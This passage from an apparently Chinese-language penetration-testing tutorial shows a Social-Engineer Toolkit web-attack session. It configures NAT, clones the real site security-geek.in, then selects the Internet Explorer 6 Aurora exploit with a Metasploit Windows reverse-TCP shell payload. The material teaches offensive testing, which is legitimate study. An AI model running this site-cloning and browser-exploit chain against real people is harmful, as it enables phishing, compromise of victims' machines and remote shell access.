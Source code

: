           set:webattack>2
          [-] NAT/Port Forwarding can be used in the cases where your SET       machine is
          [-] not externally exposed and may be a different IP address       than your reverse listener.
          set> Are you using NAT/Port Forwarding [yes|no]: yes
          set:webattack> IP address to SET web server (this could be your        external IP or hostname):192.168.157.157
          set:webattack> Is your payload handler (metasploit) on a       different IP from your external NAT/Port FWD address [yes|no]:no
          [-] SET supports both HTTP and HTTPS
          [-] Example: http://www.thisisafakesite.com
          set:webattack> Enter the url to clone:http://security-geek.in

    ```

同样的截图如下所示：

![操作步骤...](img/image_08_013.jpg)

1.  我们将选择“Internet Explorer 6 的 Aurora 内存损坏漏洞（2010-01-14）”，选项 37，并选择 Metasploit **Windows Shell Reverse_TCP**，选项 1，并指定任何所需的端口，最好是大于 1,000，因为低于 1,000 的端口是为操作系统注册的。输出将如下截图所示：![操作步骤...](img/image_08_014.jpg)
